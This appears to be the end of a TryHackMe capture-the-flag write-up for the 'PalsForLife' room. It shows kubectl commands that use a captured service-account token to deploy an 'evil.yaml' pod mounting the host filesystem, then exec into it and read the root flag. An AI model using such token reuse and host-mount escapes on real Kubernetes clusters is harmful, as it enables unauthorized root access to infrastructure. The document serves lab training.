 ```bash
```

<br>


```bash
:~/PalsForLife# kubectl --server --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify get nodes
NAME          STATUS   ROLES                  AGE     VERSION
palsforlife   Ready    control-plane,master   4y73d   v1.20.7+k3s1
```

<br>

```bash
:~/PalsForLife# kubectl --server --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify apply -f evil.yaml
pod/mount created
```

<br>

```bash
:~/PalsForLife# kubectl --server --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify exec -it mount -- bash
root@mount:/# pwd
/
root@mount:/# cd mount
root@mount:/mount# cd root
root@mount:/mount/root# ls
root.txt
root@mount:/mount/root# cat root.txt
flag{**********************}
```

<br>

<p>1.4. Flag 4. Hint : Can we reuse a node image?<br>
<code>flag{**********************}</code></p>

<br>


 <img width="1330" height="596" alt="image" src="https://github.com/user-attachments/assets/25c083a7-b55c-4333-9195-6e54f5a4f1e6" />

 <br>
 <br>
 <br>

<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/00d908c0-cab0-4159-b08a-6ee7905d1222"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/72bcc5ee-8bf6-4ee5-afb4-cd4a2b6e29b9"></p>

<br>

<h1 align="center">My TryHackMe Journey</h1>

<div align="center">
